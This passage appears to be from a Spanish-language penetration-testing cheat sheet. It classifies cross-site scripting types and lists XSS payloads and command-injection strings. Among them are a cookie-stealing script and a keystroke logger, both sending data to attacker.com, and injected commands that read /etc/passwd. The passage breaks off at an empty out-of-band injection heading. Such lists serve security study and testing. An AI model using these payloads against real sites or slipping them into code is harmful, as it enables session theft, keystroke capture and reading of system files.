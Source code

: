 
### Cross-Site Scripting (XSS)

#### Tipos de XSS
```
XSS Classification:
├── Reflected XSS (Non-persistent)
│   ├── URL parameter injection
│   ├── Form input reflection
│   └── HTTP header injection
├── Stored XSS (Persistent)
│   ├── Database storage
│   ├── File system storage
│   └── Log file injection
└── DOM-based XSS
    ├── Client-side script manipulation
    ├── URL fragment processing
    └── JavaScript property injection
```

#### Payloads XSS Comunes
```html
<!-- Basic XSS payload -->
<script>alert('XSS')</script>

<!-- Image tag XSS -->
<img src=x onerror=alert('XSS')>

<!-- Event handler XSS -->
<body onload=alert('XSS')>

<!-- JavaScript URL -->
javascript:alert('XSS')

<!-- Data URI XSS -->
data:text/html,<script>alert('XSS')</script>

<!-- SVG XSS -->
<svg onload=alert('XSS')>

<!-- Cookie stealing -->
<script>document.location='http://attacker.com/steal.php?cookie='+document.cookie</script>

<!-- Keylogger XSS -->
<script>document.onkeypress = function(e) { fetch('http://attacker.com/log.php?key=' + String.fromCharCode(e.which)); }</script>
```

### Remote Code Execution

#### Command Injection
**Técnicas de Command Injection:**
```bash
# Basic command injection
; cat /etc/passwd
| cat /etc/passwd
&& cat /etc/passwd
|| cat /etc/passwd

# Blind command injection
; sleep 10
| ping -c 10 127.0.0.1

# Out-of-band command injection
```